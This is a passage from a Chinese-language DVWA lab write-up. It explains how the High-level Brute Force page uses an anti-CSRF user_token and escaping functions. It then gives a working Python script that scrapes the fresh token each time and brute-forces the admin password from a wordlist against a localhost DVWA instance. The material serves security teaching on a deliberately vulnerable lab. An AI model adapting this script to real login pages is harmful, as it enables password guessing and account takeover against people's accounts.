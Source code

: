 ```
?>
运行结果：30174993
		1525301769
		81
```

High级别的代码使用了Anti-CSRF token来抵御CSRF的攻击，使用了stripslashes()函数mysqli_real_esacpe_string()函数来抵御SQL注入和XSS的攻击

因为使用了Anti-CSRF token，每次服务器返回的登陆页面中都会包含一个随机的user_token的值，用户每次登录时都要将user_token一起提交。服务器收到请求后，会对user_token进行检查，再进行SQL查询。

由于token值，每次都是随机的，客户端和服务端都为随机值，无法使用burp suite进行暴力破解，但是可以通过python脚本，自动获取token。

python脚本：(使用时注意修改header中的参数)

```python
from bs4 import BeautifulSoup
import requests

header={
        'GET': 'http://127.0.0.1/dvwa/vulnerabilities/brute/ HTTP/1.1',
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:67.0) Gecko/20100101 Firefox/67.0',
        'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language':'en-US,en;q=0.5',
        'Referer':'http://127.0.0.1/dvwa/vulnerabilities/brute/',
        'cookie':'security=high; PHPSESSID=91c3mm5efrctamti6rmnfbmlr4',
        'Connection':'close',
        'Upgrade-Insecure-Requests':'1',
         'Host':'127.0.0.1'
        }

requrl="http://127.0.0.1/dvwa/vulnerabilities/brute/"

def get_token(requrl,header):
    response=requests.get(url=requrl,headers=header)
    print (response.status_code,len(response.content))
    soup=BeautifulSoup(response.text,"html.parser")
    input=soup.form.select("input[type='hidden']")
    user_token=input[0]['value']
    return user_token

user_token=get_token(requrl,header)
i=0
for line in open("password.txt"):
    requrl="http://127.0.0.1/dvwa/vulnerabilities/brute/?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
    i=i+1
    print (i , 'admin' ,line.strip(),end="  ")
    user_token=get_token(requrl,header)
    # 尝试次数
    if(i==10):
        break
```

